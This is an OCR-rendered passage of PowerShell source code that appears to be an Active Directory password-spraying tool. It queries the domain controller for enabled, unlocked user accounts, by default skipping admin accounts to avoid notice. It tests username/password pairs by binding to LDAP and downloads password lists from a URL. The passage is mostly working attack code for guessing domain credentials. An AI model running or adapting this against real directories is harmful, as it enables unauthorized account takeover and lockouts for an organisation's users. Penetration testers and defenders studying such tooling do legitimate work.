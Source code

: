 ```powershell
    # Create a DirectorySearcher to poll the DC
    $Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
    $objDomain = New-Object System.DirectoryServices.DirectoryEntry
    $Searcher.SearchRoot = $objDomain

    # Select properties to load, to speed things up a bit
    $Searcher.PropertiesToLoad.Add("samaccountname") > $Null
    $Searcher.PropertiesToLoad.Add("badpwdcount") > $Null
    $Searcher.PropertiesToLoad.Add("badpasswordtime") > $Null

    # Search only for enabled users that are not locked out - avoid admins unless $admins = $true
    If ($Admins) {$Searcher.filter="(&(samAccountType=805306368)(!(lockoutTime>=1))(!(userAccountControl:1.2.840.113556.1.4.803:=2)))"}
    Else {$Searcher.filter="(&(samAccountType=805306368)(!(admincount=1))(!(lockoutTime>=1))(!(userAccountControl:1.2.840.113556.1.4.803:=2)))"}
    $Searcher.PageSize = 1000

    # Find & return targeted user accounts
    $userObjs = $Searcher.FindAll()
    Return $userObjs
}

# Method to perform auth test with specific username and password
Function Perform-Authenticate
{
    Param
    ([String]$username,[String]$password)

    # Get current domain with ADSI
    $CurrentDomain = "LDAP://"+([ADSI]"").DistinguishedName

    # Try to authenticate
    Write-Verbose "Trying to authenticate as user '$username' with password '$password'"
    $dom = New-Object System.DirectoryServices.DirectoryEntry($CurrentDomain, $username, $password)
    $res = $dom.Name
    
    # Return true/false
    If ($res -eq $null) {Return $false}
    Else {Return $true}
}

# Validate and parse user supplied url to CSV file of passwords
Function Parse-Url
{
    Param ([String]$url)

    # Download password file from URL
    $data = (New-Object System.Net.WebClient).DownloadString($url)
    $data = $data.Split([environment]::NewLine)

    # Parse passwords file and return results
    If ($data -eq $null -or $data -eq "") {Return $null}
    $passwords = $data.Split(",").Trim()
    Return $passwords
}

# Validate and parse user supplied CSV file of passwords
Function Parse-File
{
   Param ([String]$file)

   If (Test-Path $file)
   {
```